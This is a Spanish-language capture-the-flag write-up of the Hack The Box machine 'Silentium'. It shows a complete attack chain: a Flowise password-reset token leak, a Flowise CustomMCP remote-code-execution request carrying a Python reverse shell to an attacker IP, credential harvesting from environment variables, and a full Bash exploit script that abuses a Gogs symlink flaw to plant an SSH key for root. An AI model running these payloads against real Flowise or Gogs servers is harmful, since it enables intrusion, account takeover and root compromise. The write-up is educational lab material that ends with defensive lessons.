



# Writeup: Silentium (Hack The Box — Fácil)

Silentium es una máquina **Fácil** que simula el entorno de una empresa financiera con múltiples servicios expuestos. El recorrido comienza con la enumeración de puertos y el descubrimiento de un subdominio (`staging.silentium.htb`) que aloja una instancia de **Flowise**, una plataforma visual de código abierto para construir aplicaciones de IA. Aprovechando una vulnerabilidad de **exposición de información** (CVE‑2026‑56267) en el endpoint de recuperación de contraseña, se enumeran usuarios y se obtiene el **tempToken** del usuario `ben`, lo que permite restablecer su contraseña y acceder al panel. Una vez autenticados, se identifica que la versión de Flowise (3.0.5) es vulnerable a **RCE** (CVE‑2025‑59528) a través del nodo `CustomMCP`, lo que otorga una shell como `root` dentro de un contenedor Docker. Desde el contenedor, se extraen credenciales de las variables de entorno, lo que permite conectarse por SSH al host como el usuario `ben` gracias a la **reutilización de contraseña**. Finalmente, se descubre un servicio **Gogs** en el puerto 3001 que corre como `root` y es vulnerable a **CVE‑2025‑8110**, una vulnerabilidad de **symlink** que permite escribir archivos arbitrarios y escalar a `root` en el host.

---

## Fase 1: Reconocimiento

Realizamos un escaneo completo de puertos con Nmap:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn -vv 10.129.245.103 -oG allPorts
```

**Resultado:**

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Realizamos un escaneo de servicios y versiones:

```bash
nmap -sVC -p 22,80 10.129.245.103 -oN targeted
```

**Resultados clave:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Silentium | Institutional Capital & Lending Solutions
```

**Observaciones clave:**

- **SSH**: OpenSSH 9.6p1 en Ubuntu.
- **HTTP**: nginx 1.24.0 sirviendo un sitio web corporativo de una empresa financiera.

Añadimos el dominio al archivo `/etc/hosts`:

```bash
echo "10.129.245.103 silentium.htb" | sudo tee -a /etc/hosts
```

El sitio web es estático y no contiene funcionalidades interactivas ni información sensible en el código fuente. Sin embargo, en la sección de equipo se muestran tres usuarios con sus roles:

El usuario **ben** es especialmente interesante por su rol en el equipo.

---

## Fase 2: Enumeración de subdominios

Realizamos un fuzzing de subdominios:

```bash
ffuf -u http://silentium.htb -H "Host:FUZZ.silentium.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 178
```

**Resultado:**

```
staging                 [Status: 200, Size: 3142, Words: 789, Lines: 70, Duration: 303ms]
```

Encontramos el subdominio **`staging.silentium.htb`**. Lo añadimos al archivo `/etc/hosts`:

```bash
echo "10.129.245.103 staging.silentium.htb" | sudo tee -a /etc/hosts
```

Accedemos a `http://staging.silentium.htb` y encontramos un panel de login de **Flowise**.



### ¿Qué es Flowise?

**Flowise** es una plataforma visual de código abierto (*open-source*) y bajo código (*low-code*) que permite crear aplicaciones de inteligencia artificial generativa, agentes de IA y flujos de trabajo con modelos de lenguaje (LLM) mediante una interfaz de arrastrar y soltar nodos.

La página también tiene una funcionalidad de **recuperación de contraseña**. Al hacer clic en *"Have a reset password code? Change your password here"*, se nos redirige a `/reset-password`.



---

## Fase 3: Enumeración de usuarios (CVE‑2026‑56267)

### 3.1 Prueba de credenciales

Probamos credenciales incorrectas en el panel de login:

```bash
POST /api/v1/auth/login HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal

{"email":"admin@silentium.htb","password":"admin"}
```

**Resultado:**

```json
{"statusCode":404,"success":false,"message":"User Not Found","stack":{}}
```

**Hallazgo:** El panel de login **informa si un usuario existe o no**. Esto permite la enumeración de usuarios.

### 3.2 Enumeración mediante `forgot-password`

El endpoint de recuperación de contraseña también revela información:

```bash
POST /api/v1/account/forgot-password HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal

{"user":{"email":"admin@silentium.htb"}}
```

**Resultado:**

```json
{"statusCode":404,"success":false,"message":"User Not Found","stack":{}}
```

### 3.3 Identificación de la vulnerabilidad (CVE‑2026‑56267)

Buscamos información sobre vulnerabilidades en Flowise y encontramos el **CVE‑2026‑56267** (publicado en el GitHub Advisory Database: `GHSA-2mv8-gxwc-hq84`).

**Descripción:** Flowise antes de la versión 3.0.13 contiene una vulnerabilidad de **exposición de información** en el endpoint `POST /api/v1/account/forgot-password` que devuelve **objetos completos de usuario**, incluyendo información de identificación personal (PII), a atacantes no autenticados. Un atacante puede enumerar direcciones de correo válidas y recolectar datos sensibles como IDs de usuario, nombres, estado de cuenta y marcas de tiempo.

### 3.4 Explotación de la vulnerabilidad

Utilizamos el nombre de usuario **`ben`** obtenido de la sección de equipo del sitio web:

```bash
POST /api/v1/account/forgot-password HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal

{"user":{"email":"ben@silentium.htb"}}
```

**Resultado:**

```json
{
  "user": {
    "id": "e26c9d6c-678c-4c10-9e36-01813e8fea73",
    "name": "admin",
    "email": "ben@silentium.htb",
    "credential": "$2a$05$6o1ngPjXiRj.EbTK33PhyuzNBn2CLo8.b0lyys3Uht9Bfuos2pWhG",
    "tempToken": "ZdgNbSvv29NoHAPI5FhpNtJUJ6j25sS4DvfrXyPygsaeyHykgAsp1sHaSy8grrUh",
    "tokenExpiry": "2026-09-18T01:00:19.890Z",
    "status": "active",
    "createdDate": "2026-01-29T20:14:57.000Z",
    "updatedDate": "2026-09-18T00:45:19.000Z",
    "createdBy": "e26c9d6c-678c-4c10-9e36-01813e8fea73",
    "updatedBy": "e26c9d6c-678c-4c10-9e36-01813e8fea73"
  },
  "organization": {},
  "organizationUser": {},
  "workspace": {},
  "workspaceUser": {},
  "role": {}
}
```

**Hallazgo crítico:** La respuesta incluye el **tempToken**, que es el token necesario para restablecer la contraseña. Este token está diseñado para ser enviado por correo electrónico al usuario legítimo, pero la vulnerabilidad lo expone directamente en la respuesta de la API.

---

## Fase 4: Restablecimiento de contraseña y acceso al panel

Con el `tempToken` obtenido, restablecemos la contraseña del usuario `ben`:

```bash
POST /api/v1/account/reset-password HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal

{"user":{"email":"ben@silentium.htb","tempToken":"ZdgNbSvv29NoHAPI5FhpNtJUJ6j25sS4DvfrXyPygsaeyHykgAsp1sHaSy8grrUh","password":"K@li12345678"}}
```

**Resultado:**

```json
{
  "user": {
    "id": "e26c9d6c-678c-4c10-9e36-01813e8fea73",
    "name": "admin",
    "email": "ben@silentium.htb",
    "credential": "$2a$05$w3dik.Z6V.i28dLpc6hWmuXsShvpeKsmRy4xHKTvfS4kuI0z4Ub0K",
    "tempToken": "",
    "tokenExpiry": null,
    "status": "active",
    "createdDate": "2026-01-29T20:14:57.000Z",
    "updatedDate": "2026-09-18T00:49:41.000Z"
  }
}
```

**Éxito:** La contraseña ha sido restablecida. Ahora podemos autenticarnos como `ben` en el panel de Flowise.

Una vez dentro, verificamos la versión de Flowise:

| Versión actual | Última versión | Publicada |
|----------------|----------------|-----------|
| 3.0.5 | flowise@3.1.4 | hace 2 meses |

**La versión 3.0.5 es vulnerable a RCE (CVE‑2025‑59528).**

---

## Fase 5: Ejecución Remota de Código (CVE‑2025‑59528)

### 5.1 Identificación de la vulnerabilidad

El **CVE‑2025‑59528** es una vulnerabilidad de **Ejecución Remota de Código (RCE)** en Flowise. El nodo `CustomMCP` permite a los usuarios introducir configuraciones para conectarse a un servidor MCP (Model Context Protocol) externo. Este nodo parsea la cadena `mcpServerConfig` proporcionada por el usuario para construir la configuración del servidor MCP. Sin embargo, durante este proceso, **ejecuta código JavaScript sin ninguna validación de seguridad**.

**Flujo de la vulnerabilidad:**

1. **Entrada del usuario recibida**: La entrada se proporciona a través del endpoint `/api/v1/node-load-method/customMCP` mediante el parámetro `mcpServerConfig`.
2. **Sustitución de variables**: La función `substituteVariablesInString` reemplaza variables de plantilla como `$vars.xxx`, pero no aplica ningún filtrado de seguridad.
3. **Ejecución de código peligroso**: La función `convertToValidJSONString` ejecuta la entrada usando `Function('return ' + inputString)()`. Si la cadena contiene código malicioso, se ejecuta en el contexto global de Node.js, permitiendo acciones como ejecución de comandos y acceso al sistema de archivos.

**Referencia:** `GHSA-3gcm-f6qx-ff7p`.

### 5.2 Explotación — Prueba de concepto (ping)

Capturamos la petición en Burp Suite y la modificamos.

**Petición original:**

```http
POST /api/v1/assistants HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal
Cookie: token=...; refreshToken=...; connect.sid=...

{"details":"{\"name\":\"Hacked\"}","credential":"9aafc287-ff09-4611-95b6-bafbde2b838d","type":"CUSTOM"}
```

**Petición modificada (prueba de ping):**

```http
POST /api/v1/node-load-method/customMCP HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal
Cookie: token=...; refreshToken=...; connect.sid=...

{
    "loadMethod": "listActions",
    "inputs": {
        "mcpServerConfig": "({x:(function(){const cp = process.mainModule.require(\"child_process\");cp.execSync(\"ping -c 4 10.10.17.231\");return 1;})()})"
    }
}
```

**Confirmación en nuestra máquina Kali:**

```bash
sudo tcpdump -i tun0 -n -vv icmp
```

**Resultado:**

```
21:22:50.082529 IP 10.129.245.103 > 10.10.17.231: ICMP echo request, id 3878, seq 0, length 64
21:22:50.082569 IP 10.10.17.231 > 10.129.245.103: ICMP echo reply, id 3878, seq 0, length 64
21:22:50.914764 IP 10.129.245.103 > 10.10.17.231: ICMP echo request, id 3878, seq 1, length 64
21:22:50.914789 IP 10.10.17.231 > 10.129.245.103: ICMP echo reply, id 3878, seq 1, length 64
21:22:51.921441 IP 10.129.245.103 > 10.10.17.231: ICMP echo request, id 3878, seq 2, length 64
21:22:51.921495 IP 10.10.17.231 > 10.129.245.103: ICMP echo reply, id 3878, seq 2, length 64
21:22:52.938364 IP 10.129.245.103 > 10.10.17.231: ICMP echo request, id 3878, seq 3, length 64
21:22:52.938392 IP 10.10.17.231 > 10.129.245.103: ICMP echo reply, id 3878, seq 3, length 64
```

Los paquetes ICMP confirman la ejecución remota de comandos.

### 5.3 Obtención de reverse shell

Enviamos un payload para obtener una reverse shell:

```http
POST /api/v1/node-load-method/customMCP HTTP/1.1
Host: staging.silentium.htb
Content-Type: application/json
x-request-from: internal
Cookie: token=...; refreshToken=...; connect.sid=...

{
    "loadMethod": "listActions",
    "inputs": {
        "mcpServerConfig": "({x:(function(){const cp = process.mainModule.require(\"child_process\");cp.spawn(\"python3\",[\"-c\",\"import socket,subprocess,os;s=socket.socket();s.connect((\\\"10.10.17.231\\\",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])\"],{detached:true,stdio:\"ignore\"});return 1;})()})"
    }
}
```

En nuestra máquina Kali, iniciamos un listener:

```bash
nc -lnvp 443
```

**Resultado:**

```bash
listening on [any] 443 ...
connect to [10.10.17.231] from (UNKNOWN) [10.129.134.93] 41900
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Somos **`root` dentro de un contenedor Docker** (UID 0).

### 5.4 Enumeración del contenedor

Obtenemos la IP del contenedor:

```bash
/ # hostname -i
172.18.0.2
```

Listamos el directorio `/root`:

```bash
/ # ls -la root
total 16
drwx------    1 root     root          4096 Apr  8 09:41 .
drwxr-xr-x    1 root     root          4096 Apr  8 15:14 ..
-rw-------    1 root     root             9 Jan 29  2026 .ash_history
drwxr-xr-x    3 root     root          4096 Sep 19 03:29 .flowise
```

Leemos el historial de comandos de `root`:

```bash
/ # cat root/.ash_history
env
exit
```

Listamos las **variables de entorno**, donde encontramos credenciales críticas:

```bash
/ # env
FLOWISE_PASSWORD=F1l3_d0ck3r
ALLOW_UNAUTHORIZED_CERTS=true
NODE_VERSION=20.19.4
HOSTNAME=c78c3cceb7ba
YARN_VERSION=1.22.22
SMTP_PORT=1025
SHLVL=2
PORT=3000
HOME=/root
SENDER_EMAIL=ben@silentium.htb
PUPPETEER_EXECUTABLE_PATH=/usr/bin/chromium-browser
JWT_ISSUER=ISSUER
JWT_AUTH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
LLM_PROVIDER=nvidia-nim
SMTP_USERNAME=test
SMTP_SECURE=false
JWT_REFRESH_TOKEN_EXPIRY_IN_MINUTES=43200
FLOWISE_USERNAME=ben
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DATABASE_PATH=/root/.flowise
JWT_TOKEN_EXPIRY_IN_MINUTES=360
JWT_AUDIENCE=AUDIENCE
SECRETKEY_PATH=/root/.flowise
PWD=/
SMTP_PASSWORD=r04D!!_R4ge
NVIDIA_NIM_LLM_MODE=managed
SMTP_HOST=mailhog
JWT_REFRESH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
SMTP_USER=test
```

**Hallazgo:** Entre las variables de entorno encontramos `SMTP_PASSWORD=r04D!!_R4ge` y `FLOWISE_USERNAME=ben`. Estas credenciales nos permitirán intentar la autenticación en otros servicios del host, aprovechando la posible reutilización de contraseñas.

---

## Fase 6: Acceso SSH como `ben`

Probamos la contraseña extraída del contenedor (`r04D!!_R4ge`) para el usuario `ben` en el servicio SSH del host:

```bash
ssh ben@silentium.htb
```

**Resultado:**

```bash
ben@silentium:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben),100(users)
ben@silentium:~$ cat user.txt
[REDACTED]
```

Obtenemos la **flag de usuario**.

---

## Fase 7: Enumeración local y descubrimiento de Gogs

### 7.1 Enumeración de puertos abiertos

Listamos los puertos en escucha en la máquina:

```bash
ss -nltp
```

**Resultado:**

```
State         Recv-Q         Send-Q                 Local Address:Port                  Peer Address:Port        Process        
LISTEN        0              4096                         0.0.0.0:22                         0.0.0.0:*                          
LISTEN        0              511                          0.0.0.0:80                         0.0.0.0:*                          
LISTEN        0              4096                       127.0.0.1:3000                       0.0.0.0:*                          
LISTEN        0              4096                       127.0.0.1:3001                       0.0.0.0:*                          
LISTEN        0              4096                       127.0.0.1:1025                       0.0.0.0:*                          
LISTEN        0              4096                      127.0.0.54:53                         0.0.0.0:*                          
LISTEN        0              4096                   127.0.0.53%lo:53                         0.0.0.0:*                          
LISTEN        0              4096                       127.0.0.1:40419                      0.0.0.0:*                          
LISTEN        0              4096                       127.0.0.1:8025                       0.0.0.0:*                          
LISTEN        0              4096                            [::]:22                            [::]:*                          
LISTEN        0              511                             [::]:80                            [::]:*                          
```

Observamos dos servicios interesantes:
- **Puerto 3000**: Flowise.
- **Puerto 3001**: Un servicio desconocido.

### 7.2 Identificación del servicio en el puerto 3001

```bash
curl -s 127.0.0.1:3001
```

**Resultado:**

```html
<!DOCTYPE html>
<html>
<head data-suburl="">
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
    <meta name="author" content="Gogs" />
    <meta name="description" content="Gogs is a painless self-hosted Git service" />
    <meta property="og:url" content="http://staging-v2-code.dev.silentium.htb:3001/" />
    ...
```

**Hallazgo:** En el puerto 3001 corre **Gogs**, un servicio de Git autoalojado escrito en Go. La URL interna es `staging-v2-code.dev.silentium.htb:3001`.

Añadimos el subdominio al archivo `/etc/hosts` de nuestra máquina Kali:

```bash
echo "10.129.245.103 staging-v2-code.dev.silentium.htb" | sudo tee -a /etc/hosts
```

Accedemos a `http://staging-v2-code.dev.silentium.htb` y vemos la interfaz de Gogs.



### 7.3 Verificación de que Gogs corre como `root`

```bash
ps aux | grep gogs
```

**Resultado:**

```
root        1495  0.0  1.7 1664744 71980 ?       Ssl  17:45   0:01 /opt/gogs/gogs/gogs web
ben         5270  0.0  0.0   6544  2280 pts/0    S+   18:12   0:00 grep --color=auto gogs
```

**Hallazgo crítico:** Gogs corre como **`root`**. Si encontramos una vulnerabilidad que nos permita escribir archivos arbitrarios, podremos escalar a `root` en el host.

---

## Fase 8: Escalada a root mediante Gogs (CVE‑2025‑8110)

### 8.1 Identificación de la versión de Gogs

En el código fuente de Gogs encontramos un hash de commit:

```
5084b4a9b77a506f5e287e82e945e1c6882b827a
```

Consultando el repositorio de Gogs en GitHub, accedemos a la URL completa del commit:

```
https://github.com/gogs/gogs/commit/5084b4a9b77a506f5e287e82e945e1c6882b827a
```

Este hash corresponde a la versión **0.13.3**, que es vulnerable a **CVE‑2025‑8110**.

### 8.2 Descripción de la vulnerabilidad

**CVE‑2025‑8110** es una vulnerabilidad crítica de **Ejecución Remota de Código (RCE)** en Gogs. La falla permite a un atacante autenticado ejecutar comandos arbitrarios en el servidor explotando un **manejo inadecuado de enlaces simbólicos (symlinks)** en su API `PutContents`.

**Mecanismo del fallo:**

1. **Crear un repositorio** con un symlink que apunte a un archivo sensible fuera del repositorio, como `/root/.ssh/authorized_keys`.
2. **Usar la API** `PUT /api/v1/repos/.../contents/<file>` para escribir datos a través de ese symlink, sobrescribiendo el archivo de destino.
3. **Inyectar una clave pública SSH** en `/root/.ssh/authorized_keys`, lo que permite al atacante conectarse como `root`.

### 8.3 Preparación de la explotación

**Generamos un par de claves SSH:**

```bash
ssh-keygen -t ed25519 -f ~/.ssh/silentium_root -N "" -C "root@silentium"
```

**Registramos un usuario en Gogs** y generamos un **token de API** en *Settings → Applications → Generate New Token*.

### 8.4 Script de explotación automatizado

Creamos un script en Bash que automatiza todo el proceso:

```bash
#!/bin/bash
# ============================================================
# CVE-2025-8110 - Escritura arbitraria en /root/.ssh/authorized_keys
# Objetivo: Gogs en HTB Silentium
# ============================================================

# ================== CONFIGURACIÓN ==================
TOKEN="<TOKEN_DE_API>"
GOGS="http://staging-v2-code.dev.silentium.htb"
HOST="staging-v2-code.dev.silentium.htb"
REPO="backup-sync-$(date +%s)"          
SYMLINK="root_key"
SSH_KEY="$HOME/.ssh/silentium_root"
TARGET_PATH="/root/.ssh/authorized_keys"
# ===================================================

GREEN='\033[0;32m'; RED='\033[0;31m'; YELLOW='\033[1;33m'; NC='\033[0m'
log()  { echo -e "${GREEN}[+]${NC} $1"; }
warn() { echo -e "${YELLOW}[!]${NC} $1"; }
err()  { echo -e "${RED}[-]${NC} $1"; }

# --- 0. Verificar que la clave existe ---
if [ ! -f "$SSH_KEY" ]; then
    err "No se encuentra la clave privada en $SSH_KEY"
    exit 1
fi
if [ ! -f "${SSH_KEY}.pub" ]; then
    err "No se encuentra la clave pública en ${SSH_KEY}.pub"
    exit 1
fi
PUBKEY=$(cat "${SSH_KEY}.pub")
log "Usando clave pública: $PUBKEY"

# --- 1. Verificar Gogs ---
log "Verificando Gogs ..."
VERSION=$(curl -s "$GOGS/api/v1/version")
if [ -z "$VERSION" ]; then
    err "No se pudo contactar con Gogs."
    exit 1
fi
log "Gogs responde: $VERSION"

# --- 2. Obtener usuario desde el token ---
USERNAME=$(curl -s -H "Authorization: token $TOKEN" "$GOGS/api/v1/user" \
  | python3 -c "import sys,json; print(json.load(sys.stdin).get('login',''))" 2>/dev/null)
if [ -z "$USERNAME" ]; then
    err "Token inválido o expirado."
    exit 1
fi
log "Usuario autenticado: $USERNAME"

# --- 3. Crear repositorio nuevo ---
log "Creando repositorio '$REPO' ..."
CREATE=$(curl -s -X POST "$GOGS/api/v1/user/repos" \
  -H "Authorization: token $TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"name\":\"$REPO\",\"private\":true,\"auto_init\":false}")

if echo "$CREATE" | grep -q '"id"'; then
    log "Repositorio creado."
else
    warn "Respuesta: $CREATE"
fi

# --- 4. Clonar, symlink, push ---
WORKDIR=$(mktemp -d)
trap "rm -rf $WORKDIR" EXIT
cd "$WORKDIR"

log "Clonando repositorio ..."
git clone "http://$USERNAME:$TOKEN@$HOST/$USERNAME/$REPO.git" repo > /dev/null 2>&1
[ ! -d "repo" ] && { err "Fallo al clonar."; exit 1; }

cd repo
git config user.email "sync@local"
git config user.name "Sync"

log "Creando symlink '$SYMLINK' -> $TARGET_PATH ..."
ln -sf "$TARGET_PATH" "$SYMLINK"
git add "$SYMLINK"
git commit -m "add symlink" > /dev/null 2>&1

log "Pusheando ..."
git push origin master > /dev/null 2>&1
[ $? -ne 0 ] && { err "Fallo al hacer push."; exit 1; }
log "Symlink subido."

# --- 5. Inyectar clave pública vía API PutContents ---
log "Inyectando clave en $TARGET_PATH ..."
PUBKEY_B64=$(printf '%s\n' "$PUBKEY" | base64 -w 0)

INJECT=$(curl -s -X PUT "$GOGS/api/v1/repos/$USERNAME/$REPO/contents/$SYMLINK" \
  -H "Authorization: token $TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"content\":\"$PUBKEY_B64\",\"message\":\"sync\",\"branch\":\"master\"}")

echo "[DEBUG] $INJECT"

if echo "$INJECT" | grep -q '"content"'; then
    log "Clave inyectada."
else
    warn "Respuesta inesperada de la API."
fi

cd /

# --- 6. Probar conexión SSH ---
echo ""
log "Probando SSH como root ..."
ssh -i "$SSH_KEY" -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
    -o BatchMode=yes -o ConnectTimeout=10 \
    "root@$HOST" "id" 2>/dev/null

if [ $? -eq 0 ]; then
    echo ""
    log "¡ÉXITO! Conéctate con:"
    echo "    ssh -i $SSH_KEY root@$HOST"
else
    echo ""
    warn "Sin conexión SSH todavía. Revisa:"
    echo "  - ¿Gogs corre como root?  ->  ps aux | grep gogs"
    echo "  - ¿Existe /root/.ssh/ y tiene permisos 700?"
    echo "  - Prueba el plan B: reverse shell vía sshCommand en .git/config."
fi

echo ""
log "Fin."
```

### 8.5 Ejecución del script

```bash
./exploit.sh
```

**Resultado:**

```
[+] Usando clave pública: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBRNaLwEFeEkKH1qKYPCKHjynppgaatDLMzv+9tmQx+g root@silentium
[+] Verificando Gogs ...
[+] Gogs responde: <!DOCTYPE html>...
[+] Usuario autenticado: kali
[+] Creando repositorio 'backup-sync-1789862508' ...
[+] Repositorio creado.
[+] Clonando repositorio ...
[+] Creando symlink 'root_key' -> /root/.ssh/authorized_keys ...
[+] Pusheando ...
[+] Symlink subido.
[+] Inyectando clave en /root/.ssh/authorized_keys ...
[DEBUG] {"commit":{"url":"...","sha":"7fbef301..."},"content":{"type":"symlink","target":"/root/.ssh/authorized_keys","size":26,"name":"root_key","path":"root_key","sha":"9c87fc525b63ebd989fa409533d3be1b295d6ec3","url":"..."}}
[+] Clave inyectada.

[+] Probando SSH como root ...
uid=0(root) gid=0(root) groups=0(root)

[+] ¡ÉXITO! Conéctate con:
    ssh -i /home/kali/.ssh/silentium_root root@staging-v2-code.dev.silentium.htb

[+] Fin.
```

### 8.6 Acceso como `root`

Nos conectamos por SSH como `root`:

```bash
ssh -i ~/.ssh/silentium_root root@staging-v2-code.dev.silentium.htb
```

**Resultado:**

```bash
root@silentium:~# id
uid=0(root) gid=0(root) groups=0(root)
root@silentium:~# ls
gogs-repositories  root.txt
root@silentium:~# cat root.txt
[REDACTED]
```

Obtenemos la **flag de root**.

---

## 📌 Conclusión

Silentium es una máquina **Fácil** que combina:

1. **Enumeración de puertos** y descubrimiento de un sitio web estático con una sección de equipo que revela usuarios.
2. **Enumeración de subdominios** con `ffuf`, descubriendo `staging.silentium.htb`.
3. **Explotación de CVE‑2026‑56267** en Flowise (exposición de información en `forgot-password`), que revela el `tempToken` del usuario `ben`.
4. **Restablecimiento de contraseña** usando el `tempToken` y acceso al panel de Flowise.
5. **Explotación de CVE‑2025‑59528** en Flowise (RCE mediante el nodo `CustomMCP`), obteniendo una shell como `root` dentro de un contenedor Docker.
6. **Extracción de credenciales** de las variables de entorno del contenedor (`SMTP_PASSWORD=r04D!!_R4ge`).
7. **Reutilización de contraseña** para conectarse por SSH al host como `ben`.
8. **Descubrimiento de Gogs** en el puerto 3001, que corre como `root` y es vulnerable a **CVE‑2025‑8110**.
9. **Explotación de CVE‑2025‑8110** (symlink traversal en `PutContents`) para inyectar una clave SSH en `/root/.ssh/authorized_keys` y obtener acceso como `root`.

---

## 📚 Lecciones aprendidas

1. **La enumeración pasiva y activa es fundamental en un pentesting**  
   La sección de equipo del sitio web proporcionó los nombres de usuario que fueron clave para el ataque de enumeración y posterior explotación. Sin esta información, habría sido mucho más difícil avanzar. La enumeración debe ser exhaustiva en todas las fases del pentest.

2. **Los endpoints de recuperación de contraseña pueden filtrar información sensible**  
   El endpoint `forgot-password` de Flowise devolvía el objeto completo del usuario, incluyendo el `tempToken` necesario para restablecer la contraseña. Esto permitió tomar el control de la cuenta de `ben` sin necesidad de acceder al correo electrónico. Los endpoints de recuperación deben devolver únicamente mensajes genéricos y enviar el token por un canal seguro.

3. **El protocolo MCP puede introducir vulnerabilidades críticas si no se maneja adecuadamente**  
   La implementación del nodo `CustomMCP` en Flowise ejecutaba código JavaScript sin validación, lo que permitía RCE. Las integraciones con protocolos externos deben validar y sanitizar todas las entradas, y evitar el uso de funciones peligrosas como `Function()` o `eval()`.

4. **Mantener los sistemas actualizados es esencial, especialmente cuando existen CVEs críticos públicos**  
   Tanto Flowise 3.0.5 (CVE‑2025‑59528) como Gogs 0.13.3 (CVE‑2025‑8110) eran versiones obsoletas con vulnerabilidades críticas conocidas. Mantener el software actualizado con los últimos parches de seguridad es una práctica obligatoria.

5. **La reutilización de contraseñas es un riesgo crítico**  
   La contraseña `SMTP_PASSWORD` (`r04D!!_R4ge`) del contenedor Docker era la misma que la contraseña del usuario `ben` en el host. Esto permitió la escalada desde el contenedor al host. Las contraseñas deben ser únicas para cada servicio y cuenta, y nunca reutilizarse entre entornos.

6. **El principio de mínimo privilegio es fundamental**  
